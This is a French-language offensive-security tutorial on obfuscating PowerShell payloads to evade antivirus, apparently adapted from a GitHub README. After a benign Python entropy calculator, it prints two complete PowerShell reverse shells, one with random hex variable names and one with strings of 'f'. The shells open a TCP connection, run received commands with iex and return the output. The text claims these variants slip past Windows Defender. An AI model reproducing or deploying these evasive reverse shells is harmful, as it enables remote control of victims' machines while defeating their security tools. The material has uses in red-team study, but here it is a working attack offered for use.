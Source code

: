 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropie__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python :

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__

Il est important de renommer le nom de nos variables en respectant le concept de [Entropie](PowerShell_Obfuscation.md#__Entropie__), cela rend le travail plus difficile pour les antivirus.

Voici un code détecté par les antivirus classique dont windows defender :

![[renameObj1.png]]

En remplaçant le nom des variables ainsi que **`(pwd).Path`** par **`$(gl)`**, on obtient un code que les antivirus ne découvre pas. 

```powershell
$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()
```

On peut également remplacer le nom des variables par x * 'f', ce qui donnerai quelques choses comme :

```powershell
$ffffffffffffffffffffffffffffffff = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $fffffffffffffffffffff = $ffffffffffffffffffffffffffffffff.GetStream(); [byte[]] $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = 0..65535|%{0}; while(($ffffffffffffffffffffffffffffffffffffffffffffffffffffff = $fffffffffffffffffffff.Read($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff, 0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length)) -ne 0){; $fffff = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffff); $b396f8bb13ec47c28e4f721085e95361 = (iex $fffff 2>&1 | Out-String ); $fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff= ([text.encoding]::ASCII).GetBytes($fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff); $fffffffffffffffffffff.Write($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length);$fffffffffffffffffffff.Flush()}; $ffffffffffffffffffffffffffffffff.Close()
```

Cela donnera une entropie bien inférieur à celle précédente et a probablement de meilleur chance face au Antivirus.


